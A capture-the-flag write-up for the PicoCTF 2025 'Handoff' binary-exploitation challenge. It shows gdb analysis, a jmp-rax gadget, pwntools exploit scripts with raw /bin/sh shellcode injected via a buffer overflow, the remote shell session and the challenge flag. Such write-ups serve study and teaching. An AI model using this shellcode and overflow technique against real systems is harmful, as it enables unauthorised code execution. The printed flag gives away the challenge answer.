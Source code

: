 ```yaml
---
title: Handoff
category: PicoCTF-2025
chall_description:
points: 400
solves: 0
tags: Binary-Exploitation
date: 2025-03-09
comments: false
---
```


No description, no hints, very boring :(

---

# Initial Analysis
In the provided source we are given 3 main pieces of functionality: creating a recipient in an array (max of 32 bytes), creating a message for the array (we will not use this), and giving feedback (max of 32 bytes, vulnerable to a buffer overflow). The protections are pretty much non-existent in the compiled binary, but the stack addresses are randomized so we can't just jump to a known address in the stack.
# Obtaining Code Execution
When debugging with gdb, I found the following to occur when I trigger a buffer overflow:
```c
$rax   : 0x00007fffe8752544  →  0x0031313131313131 ("1111111"?)
$rbx   : 0x00007fffe8752688  →  0x00007fffe8752f22  →  "/mnt/share/handoff"
$rcx   : 0x00007f2b5e82da21  →  0x4f77fffff0003d48 ("H="?)
$rdx   : 0xfbad2288        
$rsp   : 0x00007fffe8752558  →  "11111111\n"
$rbp   : 0x3131313131313131 ("11111111"?)
$rsi   : 0x00000000231e52a1  →  "111111111111111111111111111\n"
$rdi   : 0x00007f2b5e90b720  →  0x0000000000000000
$rip   : 0x000000000040140e  →  <vuln+01e5> ret 
$r8    : 0x00000000231e52bd  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x1               
$r13   : 0x0               
$r14   : 0x00007f2b5e958000  →  0x00007f2b5e9592e0  →  0x0000000000000000
$r15   : 0x0
```
`rax` points to our input, which is executable. So, we can just jump to rax using the binary itself. Using cutter we can search for this gadget and find `jmp rax` at `0x40116c`.
```python
from pwn import *
r = process(elf.path)
r.sendline(b'3') # Select the 3rd option, exit and leave feedback
payload = b'\xeb\xfe'*int((20)/2) # basically a 2 byte loop, never exits, 20 bytes is the size before the RIP overwrite
payload += p64(4198764) # Address of jmp rax
print(len(payload))
r.sendline(payload)
r.interactive()
```
We can see that this does work, but now we have to achieve a shell.
# Exploitation, For Real This Time
Breaking at `0x4012f3`, we can intercept the first argument which will be the address of where the name is stored. The value is `0x7ffdd814b3e0` (will change if ran again). Than we can break at `0x4013e8` the exit function's fgets. The value stored there is `0x7ffdd814b6b4`. The offset is 724 bytes, so we can use the relative jump to jump 724 bytes back. After some tweaking the offset is actually 717 (idk why) and we have to pad our shell code. Finally, we have our solve script:
```python
from pwn import *
elf = context.binary = ELF('./handoff')

#r = remote('shape-facility.picoctf.net', 64512)
r = process(elf.path)

payload = b'1\n' # Add name 
payload += b'\x90\x90\x90\x90\x90\x90\x90\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05\n' # Add shellcode /bin/sh
payload += b'3\n' # Exit
payload += b'\xe9\x2e\xfd\xff\xff' + b'0' * 15 # Jump to shellcode
payload += p64(4198764) # Return address, points to jmp rax

r.sendline(payload)
r.interactive()
```
After making sure it works locally, we can test on the server:
```
[*] '/home/h/Downloads/handoff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to shape-facility.picoctf.net on port 53879: Done
[*] Switching to interactive mode
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: 
$ ls
flag.txt
handoff
start.sh
$ cat flag.txt
picoCTF{p1v0ted_ftw_17db5315}
```
Based off the flag, this was an unintended solve!
